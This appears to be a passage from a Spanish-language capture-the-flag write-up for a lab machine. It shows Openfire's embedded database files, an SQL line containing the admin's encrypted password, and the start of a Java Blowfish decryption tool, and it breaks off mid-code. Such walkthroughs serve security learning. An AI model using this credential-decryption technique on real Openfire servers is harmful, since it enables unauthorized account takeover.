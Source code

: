 ```cmd
C:\Program Files\Openfire\embedded-db>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 385E-AC57

 Directory of C:\Program Files\Openfire\embedded-db

07/27/2024  08:29 PM    <DIR>          .
07/27/2024  08:29 PM    <DIR>          ..
07/27/2024  08:29 PM                 0 openfire.lck
07/27/2024  09:40 PM             1,188 openfire.log
07/27/2024  08:29 PM               106 openfire.properties
05/07/2024  09:53 PM            16,161 openfire.script
07/27/2024  08:29 PM    <DIR>          openfire.tmp
               4 File(s)         17,455 bytes
               3 Dir(s)   7,777,484,800 bytes free
```

En el fichero `openfire.script` encontramos esta linea.
```sql
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
```

Así que tenemos una pwd encriptada.
`becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442`

Haciendo una búsqueda rápida en Google, podemos encontrar este repositorio que nos indica como podemos desencriptar esta credencial.
[openfire_decrypt](https://github.com/c0rdis/openfire_decrypt)

# Crackeando la contraseña del usuario administrador

Analizando el código del script adjuntado, vemos que se utiliza una clave secreta para encriptar las pwd, por lo cual, también debe rondar por la base de datos.
`SecretKeySpec key  = new SecretKeySpec (keyParam, "Blowfish")`

```java
import javax.crypto.Cipher;
import java.security.MessageDigest;
import javax.crypto.spec.SecretKeySpec;
import javax.crypto.spec.IvParameterSpec;

public class OpenFireDecryptPass
{
  public static void main(String[] argv) throws Exception
  {
    if (argv.length < 2)
    {
      System.out.println("[-] Please specify the encypted password and the \"passwordKey\"");
      return;
    }
    
    MessageDigest md = MessageDigest.getInstance ("SHA-1");

    byte[] keyParam = md.digest (argv[1].getBytes ("utf8"));
    byte[] ivBytes  = hex2bytes (argv[0].substring (0, 16));
    byte[] encryptedString = hex2bytes (argv[0].substring (16)); // 8 * 2 (since hex)

    IvParameterSpec iv = new IvParameterSpec (ivBytes);
    SecretKeySpec key  = new SecretKeySpec (keyParam, "Blowfish");

```